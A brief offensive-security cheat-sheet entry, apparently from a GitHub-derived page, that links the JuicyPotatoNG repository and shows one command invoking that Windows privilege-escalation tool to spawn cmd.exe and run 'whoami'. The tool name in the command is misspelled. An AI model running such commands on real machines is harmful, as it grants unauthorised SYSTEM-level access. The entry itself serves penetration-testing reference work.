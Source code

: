 ### Source
https://github.com/antonioCoco/JuicyPotatoNG

### Open System Shell - using LogonUser() API call and SSPI hook on AcceptSecurityContext() function
```
JuixyPotatoNG.exe -t * -p "C:\Windows\System32\cmd.exe" -a "/c whoami > whoami.txt"
```

